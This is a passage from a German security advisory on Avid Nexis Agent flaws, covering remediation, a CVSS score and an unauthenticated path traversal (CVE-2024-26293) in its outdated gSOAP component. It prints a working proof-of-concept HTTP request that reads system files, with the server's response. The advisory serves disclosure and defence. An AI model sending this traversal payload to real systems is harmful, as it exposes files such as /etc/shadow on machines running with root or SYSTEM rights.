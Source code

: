 ### Behebung

Da uns auch hier bis heute kein offizieller Fix bekannt ist, empfehlen wir den Zugriff auf den Agenten-Port (Standard 5015) mithilfe eines Whitelist-Ansatzes einzuschränken.

### CVSS

DriveByte hat die folgende CVSS 4.0 Basismetrik errechnet:

7.1 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:L/VA:H/SC:N/SI:N/SA:N)


## Unauthenticated Path Traversal (Linux/Windows): CVE-2024-26293

### Beschreibung

Die Anwendung ist anfällig für eine nicht authentifizierte Pfadüberschreitung. Dies betrifft den Agenten für Linux sowohl den für Windows. Da die Anwendung standardmäßig mit den höchsten Rechten (root/NT_AUTHORITY SYSTEM) ausgeführt wird, sind Angreifer in der Lage, kritische Dateien wie `/etc/shadow` usw. zu erlangen. Diese Schwachstelle in gSOAP 2.8 war bereits zuvor bekannt. [Dieser Link](https://www.exploit-db.com/exploits/47653) zeigt, dass diese Schwachstelle mindestens seit 2019 bekannt ist. Es scheint jedoch, dass die gSOAP-Version des Avid Nexis Agent nicht auf dem neuesten Stand ist.

### Proof of Concept

Die Schwachstelle kann mit folgender `GET`-Anfrage ausgelöst werden (verkürzt):

```http
GET /../../../../../../../../../../../../../../../../windows/win.ini%00/common/lib/jquery/jquery-1.11.3.min.js HTTP/1.1
Host: 192.168.40.129:5015
...
```
Wie wir sehen können, antwortet der Server mit dem Inhalt der angefragten Datei:

```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: application/x-javascript
Content-Length: 92
Connection: close
Expires: Tue, 16 Jul 2024 11:56:11 GMT

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
